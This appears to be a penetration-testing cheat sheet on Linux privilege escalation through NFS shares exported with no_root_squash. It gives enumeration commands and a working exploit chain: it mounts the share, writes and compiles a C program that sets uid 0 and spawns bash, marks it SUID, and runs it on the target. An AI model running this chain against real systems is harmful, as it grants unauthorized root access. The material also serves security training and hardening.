 # NFS Root Squashing

- Root squash is a special mapping that maps root (uid 0) to local "nobody" user (uid 65534) which has minimal privileges.

1. Mount the target from target to local
2. Create privesc exploit as SUID bit to the bash shell file on local 
3. Execute privesc exploit on the target

## Enumerate

Verify in `exports` file has `no_root_squash` turned on on the target file path
```
cat /etc/exports
```

Verify the target directory is mountable.
```
showmount -e <ip>
```

## Exploitation

Create a local directory
```
mkdir /tmp/mnt
```

Mount the target directory to local
```
mount -t nfs <target_ip>:<target_directory> /tmp/mnt
```

Prepare the privesc code `x.c`
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mnt/x.c
```

Complie it
```
gcc /tmp/mnt/x.c -o /tmp/mnt/x
```

Set SUID bit
```
chmod +s /tmp/mnt/x
```

Run file on the target machine
```
./x
```


